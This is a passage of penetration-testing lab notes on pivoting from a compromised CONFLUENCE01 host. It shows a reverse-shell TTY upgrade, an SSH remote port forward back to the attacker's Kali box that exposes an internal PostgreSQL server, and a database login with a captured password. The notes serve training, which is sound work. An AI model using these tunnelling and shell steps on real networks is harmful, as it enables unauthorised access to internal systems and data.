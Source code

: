 - Enable the SSH server on Kali & verify SSH port is open
```bash
sudo systemctl start ssh

udo ss -ntplu
	Netid       State        Recv-Q       Send-Q             Local Address:Port                Peer Address:Port       Process  
	...
	tcp         LISTEN       0            128                      0.0.0.0:22                       0.0.0.0:*           users:(("sshd",pid=2153,fd=3))
	tcp         LISTEN       0            128                         [::]:22                          [::]:*           users:(("sshd",pid=2153,fd=4))
```
	- SSH server is listening on port 22 for all interfaces for IPv4 & IPv6

- Once we get a reverse shell from CONFLUENCE01, ensure a TTY shell, then create an SSH remote port forward as part of an SSH connection back to our Kali
```bash
# CONFLUENCE01 revshell
python3 -c 'import pty; pty.spawn("/bin/sh")'

# SSH Remote Port Forward
ssh -N -R 127.0.0.1:2345:10.4.193.215:5432 kali@192.168.45.196
```
	- 127.0.0.1:2345 - Listen on port **2345** on our Kali machine
	- 10.4.193.215:5432 - Forward all traffic to PostgreSQL port on PGDATABASE01

- Verify connection and exploit PGDATABASE01
```bash
ss -ntplu
	Netid          State           Recv-Q          Send-Q                   Local Address:Port                      Peer Address:Port          Process
	...
	tcp            LISTEN          0               128                          127.0.0.1:2345                           0.0.0.0:*
	...

psql -h 127.0.0.1 -p 2345 -U postgres
	Password for user postgres: D@t4basePassw0rd!
	psql (16.2 (Debian 16.2-1), server 12.12 (Ubuntu 12.12-0ubuntu0.20.04.1))
	SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, compression: off)
	Type "help" for help.
	
	postgres=# 
```

## Remote Dynamic Port Forward

Similar to Local Dynamic port forwarding, Remote creates a dynamic port forward but in the remote configuration
- SOCKS proxy port is _bound to the SSH server_
- Traffic is _forwarded from the SSH client_.
- Able to connect to other ports and hosts through the same connection
